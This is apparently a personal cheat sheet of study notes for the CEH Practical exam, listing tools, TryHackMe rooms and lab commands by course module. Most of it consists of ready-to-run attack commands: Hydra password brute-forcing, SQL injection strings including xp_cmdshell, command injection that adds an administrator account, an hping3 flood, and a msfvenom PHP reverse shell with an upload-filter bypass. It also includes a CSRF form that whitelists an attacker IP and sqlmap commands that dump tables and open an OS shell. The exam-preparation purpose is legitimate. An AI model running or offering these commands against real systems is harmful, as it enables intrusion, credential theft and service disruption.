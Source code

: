 #### CEH Practical Prep
- nmap - https://www.stationx.net/nmap-cheat-sheet/
- sqlmap - https://www.hackingarticles.in/database-penetration-testing-using-sqlmap-part-1/
- wireshark - https://unit42.paloaltonetworks.com/using-wireshark-display-filter-expressions/
- wpscan - https://www.poftut.com/how-to-scan-wordpress-sites-with-wpscan-tutorial-for-security-vulnerabilities/
- hydra - https://securitytutorials.co.uk/brute-forcing-passwords-with-thc-hydra/
- john - https://linuxconfig.org/password-cracking-with-john-the-ripper-on-linux
- hashcat
- responder - https://notsosecure.com/pwning-with-responder-a-pentesters-guide/
- CEHv10 iLAB Videos  https://www.youtube.com/playlist?list=PLWGnVet-gN_kGHSHbWbeI0gtfYx3PnDZO
- Ethical Hacking Labs -https://github.com/Samsar4/Ethical-Hacking-Labs
TryHackMe Rooms
- WebAppSec101 - https://tryhackme.com/room/webappsec101
- Daily Bugle - https://tryhackme.com/room/dailybugle
- Hydra - https://tryhackme.com/room/hydra
- CrackTheHash - https://tryhackme.com/room/crackthehash

netdiscover -i eth0
fping -a -g subnet 2>/dev/null
nmap -p- 10.10.10.10

nmap -p443,80,53,135,8080,8888 -A -O -sV -sC -T4 -oN nmapOutput 10.10.10.10

gobuster -e -u http://10.10.10.10 -w wordlsit.txt

dirb http://10.10.10.10 wordlist.txt

SQLi manually
admin' --
admin' #
admin'/*
' or 1=1--
' or 1=1#
' or 1=1/*
') or '1'='1--
') or ('1'='1—

Custom password lists
https://github.com/Dormidera/WordList-Compendium
https://datarecovery.com/rd/default-passwords/
https://github.com/danielmiessler/SecLists

cewl example.com -m 5 -w words.txt

Brute Force services

hydra
    hydra -l root -P passwords.txt [-t 32] <IP> ftp
    hydra -L usernames.txt -P pass.txt <IP> mysql
    hydra -l USERNAME -P /path/to/passwords.txt -f <IP> pop3 -V
    hydra -V -f -L <userslist> -P <passwlist> rdp://<IP>
    hydra -P common-snmp-community-strings.txt target.com snmp
    hydra -l Administrator -P words.txt 192.168.1.12 smb -t 1
    hydra -l root -P passwords.txt <IP> ssh
    
searchsploit

    searchsploit “Linux Kernel”
    searchsploit -m 7618 — Paste the exploit in the current directory
    searchsploit -p 7618[.c] — Show complete path
    searchsploit — nmap file.xml — Search vulns inside a Nmap XML result

#### Tools that are used in the iLABS

Module 2 - Footprinting and Reconaisance 
    tracert/traceroute
    ping
    firebug plugin (old) for browser (same as web developer tools)
    httrack to mirror a site.
    path analyzer pro
    metasploit - service postgresql start 
               - msfconsole
               - db_status
               - msfdb init
               - service postgresql restart
               - nmap -Pn -sS -A -oX test 10.10.10.0/24
               - db_import Test
               - hosts
               - db_nmap -sS -A 10.10.10.16
               - services
               - use scanner/smb/smb_version
               - set RHOSTS 10.10.10.8-16
               - set THREADS 100
               - run
               - os_flavor
               
Module 4 - Enumeration
    GNI (Global Network Inventory
    Advanced IP Scanner
    SuperScan
    Hyena
    NetBios Enumerator
    SoftPerfect Netowrk Scanner
    NMAP
    ZenMAP
    nbtstat
    net use
    nmap -sP  10.10.10.0/24 ping sweet
    nmap -sS 10.10.10.0/24 stealth scan
    nmap -sSV -O synscan with OS detection
    nmap -sSV -O -oN enumeration.txt
    nmap -sU -p 161 10.10.10.0/24
    nmap -sU -p 161 --script=snmp-brute 10.10.10.12
    msfconsole
                - use auxiliry/scanner/snmp/snmp_login
                - set RHOSTS 10.10.10.12
                - run
                - use auxiliary/scanner/snmp/snmp_enum
                - set RHOSTS 10.10.10.12
                - run
    LDAP
    ADExplorer
    enum4linux -u user -p passwd -U 10.10.10.12 - full output
    enum4linux -u user -p passwd -o 10.10.10.12 OS version
    enum4linux -u user -p passwd -P 10.10.10.12 password policy
    enum4linux -u user -p passwd -G 10.10.10.12 groups
    enum4linux -u user -p passwd -S 10.10.10.12 share policy 
    
    Module 5 - Vulnerability Analysis
    
    Nessus
    Nikto -h 10.10.10.12 -Tuning 1
    
    Chapter 6 - System hacking
    
    RainbowCrack
    Whitespace Stego
    Snow
    Image Stego
    OpenStego
    QuickStego
    
    Module 9 - Social Engineering
    
    SET toolkit
    
    Module 10 - Denial of Service
    
    wireshark - tcp filter
    hping3 -S 10.10.10.10 -a 10.10.10.11 -p 22 --flood
    HOIC (high orbit Ion Cannon)
    
    Module 11 - Session Hijacking
    
    OWASP ZAP
    Burpsuite
    
    Module 12 - Hacking Web Servers
    
    skipfish -o /root/test -S /usr/share/skipfish/dictionaries/complete.wl http://10.10.10.12
    httprecon
    ID Serve
    nmap -p 21 10.10.10.12
    ftp 10.10.10.12
    anonymous
    test@test.com
    hydra -L /root/Desktop/Wordlists/Usernames.txt -P root/Desktop/Wordlists/Passwords.txt ftp://10.10.10.12
    uniscan -u http://10.10.10.12
    uniscan -u http://10.10.10.12 -we (robots.txt and sitemap.txt
    uniscan -u http://10.10.10.12 -d dynamic scan (blind SQL)
    
    Module 14 Hacking Web Applications
    
    parameter  tampering
    When logged into site with user the following url will show in the address bar 
        http://10.10.10.12/viewprofile.aspx?id=2
        change it to
        http://10.10.10.12/viewprofile.aspx?id=1
    
    Cross Site Scripting (XSS or CSS)
    <script>alert("XSS Alert")</script>
    
    wpscan --url 10.10.10.12 --enumerate u
    
    msfconsole
        use/auxiliary/scanner/http/wordpress_login_enum
        set PASS_FILE passwords.txt
        set RHOSTS 10.10.10.12
        set RPORT 80
        set TARGETURI http://10.10.10.12/wordpress
        set USERNAME admin
        run
     
   DVWA
   
  command injection
    ping | hostname
    ping | net user
    ping | net user TestUser /add
    ping | net localgroup Administrators TestUser /add
    
    Vega
    Acunetix
    
   msfvenom -p php/meterpreter/reverse_tcp lhost=10.10.10.11 lport=4444 -f raw > shell.php
    msfconsole
        use/multi/handler
        set payload php/meterpreter/reverse_tcp
        set lhost 10.10.10.11
        set lport 4444
        run
        
   when shell connects
    sysinfo
    
   if .php doesn't upload and says only images like .jpg, .jpeg, .png only allowed rename shell.php to shell.php.jpg
   if that doesn't work, rename to shell.php
   edit in notepad or vim and add GIF98 in the beginning
   
   burpsuite
   
   Upload CSRF
    
    wpscan -u http://10.10.10.12 --enumerate vp
    
    <form  method="POST" action="https://10.10.10.12/wp-admin/options-general.php?page=wordpress-firewall-2%2Fwordpress-firewall-2.php"><script>alert("As an Admin, To Enable additional security to your website. Click Submimt")</script><input type="hidden" name="whitelisted_ip[]" value="10.10.10.11">
    <input type="hidden" name="set_whitelist_ip" value="Set Whitelist IPs" class="button-secondary">
    <input type="submit">
    </form>
    save as Security_Script.html
    
    
    Module 15 - SQL Injection
    
    blah' or 1=1 --
    blah';insert into login values('jon','pass'); --
    blah';create database newdb; --
    blah';'exec master_xp_cmdshell 'ping 10.10.10.12 -l 65000 -t; --
    
    NStalker
    
    inspect element
        console
           document.cookie
           
    sqlmap -u "10.10.10.12/viewprofile.aspx?id=1" --cookies=<"cookie value which you have copied above"> --dbs
    sqlmap -u "10.10.10.12/viewprofile.aspx?id=1" --cookies=<"cookie value which you have copied above"> -D dbname --tables
    sqlmap -u "10.10.10.12/viewprofile.aspx?id=1" --cookies=<"cookie value which you have copied above"> -D dbname -T user_login_table --columns
    sqlmap -u "10.10.10.12/viewprofile.aspx?id=1" --cookies=<"cookie value which you have copied above"> -D dbname -T user_login_table --dump
    sqlmap -u "10.10.10.12/viewprofile.aspx?id=1" --cookies=<"cookie value which you have copied above"> --os-shell
    
    
    Module 20 - Cryptography
    
    HashCalc
    md5calc
    cryptoforge
    BCTextEncoder
    IIS Self Signed Certs
    VeraCrypt
    CrypTool
    
    
    
    
    
    
    
    
    
    



